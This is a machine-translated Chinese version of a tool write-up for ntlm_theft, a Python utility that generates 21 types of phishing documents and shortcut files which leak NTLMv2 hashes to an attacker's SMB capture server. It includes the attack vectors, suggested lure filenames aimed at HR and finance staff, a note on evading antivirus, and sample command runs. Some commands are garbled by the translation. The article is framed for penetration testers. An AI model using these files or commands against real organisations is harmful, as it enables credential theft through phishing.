


# Ntlm_Theft:一个用于生成多种 NTLMv2 哈希盗窃文件的工具

> 原文：<https://kalilinuxtutorials.com/ntlm_theft/>

**Ntlm_Theft** 是一个生成多种类型的 NTLMv2 哈希窃取文件的工具。

ntlm_theft 是一个开源的 Python3 工具，可以生成 21 种不同类型的哈希盗窃文档。当目标允许其网络外的 smb 流量时，或者如果您已经在内部网络内，这些可用于网络钓鱼。

与基于宏的文档或漏洞文档相比，这些文件类型的优势在于所有这些都是使用“预期功能”构建的。2020 年 6 月，Windows Defender Antivirus 没有标记任何攻击，21 次攻击中有 17 次是在完全修补的 Windows 10 主机上进行的。

ntlm_theft 支持以下攻击类型:

*   浏览到包含以下内容的文件夹
    *   。url–通过 URL 字段
    *   。URL–通过图标文件字段
    *   。lnk–通过图标位置字段
    *   。SCF–通过图标文件字段(不适用于最新的 Windows)
    *   通过 OPEN field 运行 autorun.inf(不适用于最新的 Windows)
    *   desktop . ini–通过图标资源字段(不适用于最新的 Windows)
*   打开文档
    *   。XML–通过 Microsoft Word 外部样式表
    *   。XML–通过 Microsoft Word includepicture 字段
    *   。htm–通过 Chrome & IE & Edge img src(仅在本地打开，不托管)
    *   。docx–通过 Microsoft Word includepicture 字段
    *   。docx–通过 Microsoft Word 外部模板
    *   。docx–通过 Microsoft Word 框架集网站设置
    *   。xlsx–通过 Microsoft Excel 外部单元格
    *   。wax–通过 Windows Media Player 播放列表(更好，主要打开)
    *   。ASX–通过 Windows Media Player 播放列表(更好，主要打开)
    *   . m3u–通过 Windows Media Player 播放列表(更糟糕的是，Win10 首先在 Groovy 中打开)
    *   。jnlp–通过 Java 外部 jar
    *   。应用程序–通过任何浏览器(必须通过下载的浏览器提供，否则不会运行)
*   打开文档并接受弹出窗口
    *   。pdf–通过 Adobe Acrobat Reader
*   点击聊天程序中的链接
    *   。txt–粘贴到缩放聊天中的格式化链接

**用例(为什么要运行这个)**

ntlm_theft 主要针对渗透测试人员和 Red Teamers，他们将使用它对目标公司员工执行内部网络钓鱼，或者大规模测试防病毒和电子邮件网关。如果外围防火墙允许出站 SMB 访问，它也可能用于外部网络钓鱼。

我发现在渗透测试时，很容易看到我有哪些可用的文件类型，而不是像在 red teaming 项目中那样花费时间配置特定的攻击，这很有用。你可以发送一个. rtf 或者。docx 文件提交给人力资源部，一份. xlsx 电子表格文档提交给财务部。

**入门**

这些说明将向您展示 ntlm_theft 的要求和使用方法。

**先决条件**

ntlm_theft 需要 Python3 和 xlsxwriter:

**pip3 安装 xlsxwriter**

**所需参数**

要启动工具，必须提供 4 个参数，即输入格式、输入文件或文件夹以及基本运行模式:

**-g，–generate:选择生成所有文件或特定文件类型
-s，–server:您的 SMB 哈希捕获服务器的 IP 地址(Responder，impacket ntlmrelayx，Metasploit auxiliary/server/capture/SMB 等)
-f，–filename:不带扩展名的基本文件名，以后可以重命名(例如:test，Board-Meeting2020，Bonus_Payment_Q4)**

**示例运行**

下面是一个生成所有文件的运行示例:

**# python 3 NTLM _ theft . py-g all-s 127 . 0 . 0 . 1-f 测试
创建:test/test.scf(浏览)
创建:test/test-(url)。url(浏览)
已创建:测试/测试-(图标)。url(浏览)
创建:test/test.rtf(打开)
创建:test/test-(样式表)。xml (OPEN)
已创建:test/test-(fulldocx)。xml (OPEN)
已创建:test/test.htm(用 CHROME、IE 或 EDGE 从桌面打开)
已创建:test/test-(includepicture)。docx (OPEN)
已创建:test/test-(remotetemplate)。docx (OPEN)
已创建:test/test-(frameset)。docx(打开)
创建:test/test.m3u(仅在 WINDOWS MEDIA PLAYER 中打开)
创建:test/test.asx(打开)
创建:test/test.jnlp(打开)
创建:test/test.application(下载并打开)
创建:test/test.pdf(打开并允许)
创建:test/zoom-attack-instructions . txt(粘贴到聊天中)
生成完成。**

下面是一个仅生成现代文件的运行示例:

**# python 3 NTLM _ theft . py-g modern-s 127 . 0 . 0 . 1-f meeting
跳过 SCF，因为它在 modern Windows 上不工作
创建:meeting/meeting-(url)。url(浏览至文件夹)
已创建:会议/会议-(图标)。url(浏览至文件夹)
创建:meeting/meeting.rtf (OPEN)
创建:meeting/meeting-(样式表)。xml (OPEN)
已创建:meeting/meeting-(fulldocx)。xml (OPEN)
已创建:meeting/meeting.htm(用 CHROME、IE 或 EDGE 从桌面打开)
已创建:meeting/meeting-(include picture)。docx (OPEN)
已创建:meeting/meeting-(remote template)。docx (OPEN)
已创建:meeting/meeting-(frameset)。docx (OPEN)
已创建:meeting/meeting-(externalcell)。xlsx(打开)
创建:meeting/meeting.m3u(仅在 WINDOWS MEDIA PLAYER 中打开)
创建:meeting/meeting.asx(打开)
创建:meeting/meeting.jnlp(打开)
创建:meeting/meeting.application(下载并打开)
创建:meeting/meeting.pdf(打开并允许)
跳过缩放，因为它在最新版本上不工作
跳过 Autorun.inf，因为它在现代 WINDOWS 上不工作** 

下面是一个仅生成 xlsx 文件的运行示例:

**# python 3 NTLM _ theft . py-g xlsx-s 192 . 168 . 1 . 103-f Bonus _ Payment _ Q4
已创建:Bonus _ Payment _ Q4/Bonus _ Payment _ Q4-(external cell)。【xlsx(开)】代完成。**

[**Download**](https://github.com/Greenwolf/ntlm_theft)